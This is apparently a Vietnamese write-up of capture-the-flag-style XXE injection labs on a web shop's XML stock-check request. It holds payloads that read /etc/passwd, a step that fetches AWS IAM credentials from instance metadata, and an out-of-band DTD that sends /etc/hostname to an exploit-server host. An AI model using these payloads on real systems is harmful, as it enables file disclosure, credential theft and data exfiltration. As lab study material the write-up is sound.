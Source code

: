 ![image](https://github.com/user-attachments/assets/9ac75822-f294-45ca-a3b0-8fa91d1c4b73)![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/754be58c-4156-43b5-9d8c-4e6c26ebeb6f)

Đây là req check stock:

![image](https://github.com/user-attachments/assets/27831c9a-8d98-4212-b0b0-ce016e6e3502)

Tôi thử cái payload cũ thì không có được:

![image](https://github.com/user-attachments/assets/763c56ac-10ff-4a1d-b06b-bbff6673efec)

Tôi thử thay bằng cái link burp collaborator vào:

![image](https://github.com/user-attachments/assets/7d700cd7-60c0-4126-a3bd-68c69c17cc46)

![image](https://github.com/user-attachments/assets/04319aa1-4a6b-4fde-b37d-92d3d547b3ee)

Và nó có gửi req tới, xong

![image](https://github.com/user-attachments/assets/538c6c88-7493-4097-9389-4af04c03d7f5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/369a2da2-7c6c-4b0c-87d6-fba9b3b676cd)

Lần này thì bài không cho tôi dùng cái payload cũ nữa:

![image](https://github.com/user-attachments/assets/29a4a0b4-de77-41f1-a90d-64e8a47adb16)

Có cái này không cần phải gọi hẳn ra trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/4d71462f-9c22-462d-98e4-0d5269a441f4)

![image](https://github.com/user-attachments/assets/49e81264-d9cf-4dcc-9302-1e478b4e3ed9)

Mặc dù nó nhìn ra lỗi nhưng bên collaborator vẫn có req được gửi tới:

![image](https://github.com/user-attachments/assets/1b1454bd-61fa-4015-8bbd-9ca672a93bbe)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/e4528b8e-ab5f-42bd-b40d-8917ba9ee1e0)

Vẫn là cái req đấy:

![image](https://github.com/user-attachments/assets/7abfc6fd-4193-48b7-bee4-7793b9ea7ad4)

Vẫn là payload cũ và nó vẫn được:

![image](https://github.com/user-attachments/assets/3cabee7b-743e-4618-aece-2a78da12c9b6)

![image](https://github.com/user-attachments/assets/98f51724-33db-4bbe-ba5d-ff321fae1999)

Ở đây tôi tạo 1 thực thể trỏ đến link của server exploit và chạy cái này:

![image](https://github.com/user-attachments/assets/cd1899b1-00a4-424e-8e73-481be6147024)

```
<!ENTITY % hostnamefile SYSTEM "file:///etc/hostname">
<!ENTITY % lmao1 "<!ENTITY &#x25; lmao2 SYSTEM 'https://exploit-0aec009d04696226814e60da01de004c.exploit-server.net/exploit/?x=%hostnamefile;'>">
%lmao1;
%lmao2;
```
Thì cái này sẽ mở file /etc/hostname và gán vào param exploit của link server exploit, giờ thì vào access log là có nội dung của file đấy:

![image](https://github.com/user-attachments/assets/d8580921-f74a-4a2e-b01d-1b6dab2b7525)

<h1>---------------------------------------------------------</h1>
<br>








































































